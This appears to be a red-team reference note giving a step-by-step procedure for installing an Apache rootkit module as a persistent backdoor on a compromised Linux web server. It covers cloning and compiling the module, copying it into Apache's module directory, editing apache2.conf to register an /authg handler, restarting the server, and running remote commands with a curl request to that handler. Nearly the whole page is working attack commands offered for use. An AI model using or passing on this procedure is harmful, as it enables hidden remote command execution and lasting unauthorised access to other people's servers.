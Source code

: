 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - backdoor
  - living-off-the-land
  - linux
credits:
  - HackerSploit
---
```

# Apache Rootkit

## Prerequisites

### Dependencies

Install the required dependencies according to your distribution.

```
$ sudo apt-get install apache2-dev
```

### Compile

```
$ git clone https://github.com/ChristianPapathanasiou/apache-rootkit.git && \
cd apache-rootkit/ && apxs -c -i mod_authg.c
```

## Install Rootkit

```
$ sudo cp mod_authg.so /usr/lib/apache2/modules/

$ sudo chmod 644 /usr/lib/apache2/modules/mod_authg.so
```

Add the lines in the apache2 configuration file.

```
$ nano /etc/apache2/apache2.conf
LoadModule authg_module /usr/lib/apache2/modules/mod_authg.so
<Location /authg>
SetHandler authg
</Location>
..[omitted]..
```

Restart the web server to load the module.

```
$ sudo systemctl restart apache2
```

Execute commands on the backdoored web server with a new URI handle.

```
$ curl -A <user_agent> http[s]://<target_IP>[:<PORT>]/authg?c=<commands>
```

---
## References

### Backlinks

- [[Linux Post Exploitation Persistence References]]

### Github

- [apache-rootkit](https://github.com/ChristianPapathanasiou/apache-rootkit)

### HackerSploit

- [HackerSploit: Linux Red Team Defense Evasion - Apache2 Rootkit](https://hackersploit.org/linux-red-team-defense-evasion-apache2-rootkit/)